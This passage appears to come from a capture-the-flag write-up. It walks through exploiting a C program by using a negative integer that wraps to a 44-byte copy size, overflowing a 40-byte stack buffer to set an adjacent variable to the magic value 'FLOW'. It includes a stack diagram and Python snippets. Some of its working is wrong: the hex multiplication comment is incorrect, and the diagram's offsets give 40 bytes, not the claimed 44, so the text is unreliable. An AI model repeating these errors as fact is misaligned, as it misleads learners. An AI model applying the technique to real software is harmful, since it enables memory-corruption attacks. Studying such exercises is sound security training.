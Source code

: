 #### 3. Stack Variable Proximity
```c
int n;           // Target variable 
char buffer[40]; // Overflow source
```
- **Layout**: Variables adjacent on stack (4-byte gap)
- **Offset**: `n` located 44 bytes from buffer start
- **Impact**: Buffer overflow can overwrite `n` with controlled data

## Memory Layout Analysis

### Stack Frame in main()
```
Higher Memory Addresses
┌─────────────────────────────────────┐
│ Saved EBP                          │ ← EBP
├─────────────────────────────────────┤
│ Return Address                     │ ← EBP + 4
├─────────────────────────────────────┤
│ argc (parameter)                   │ ← EBP + 8
├─────────────────────────────────────┤
│ argv (parameter)                   │ ← EBP + 12
├─────────────────────────────────────┤
│ ...alignment...                    │
├─────────────────────────────────────┤
│ n variable (int)                   │ ← ESP + 0x3C (TARGET)
├─────────────────────────────────────┤
│ buffer[40] (char array)            │ ← ESP + 0x14
└─────────────────────────────────────┘ ← ESP
Lower Memory Addresses

Overflow Path: buffer[40] → (4 bytes gap) → n variable
Total Distance: 44 bytes from buffer start to n
```

## Exploitation Methodology

### Step 1: Integer Overflow Calculation
```python
# Goal: Copy 44 bytes to overwrite n variable
# Constraint: n <= 9 (max 36 bytes normally)
# Solution: Use negative number overflow

# 32-bit signed integer arithmetic:
n = -2147483637
size = n * 4  # Results in 44 due to wraparound
# Binary: 0xFFFFFFD3 * 4 = 0x0000002C (44 decimal)
```

### Step 2: Magic Value Construction
```python
# Target value: 0x574f4c46
import struct
magic = struct.pack('<I', 0x574f4c46)  # Little-endian
print(repr(magic))  # 'FLOW'

# ASCII breakdown:
# 0x46 = 'F'
# 0x4c = 'L' 
# 0x4f = 'O'
# 0x57 = 'W'
```
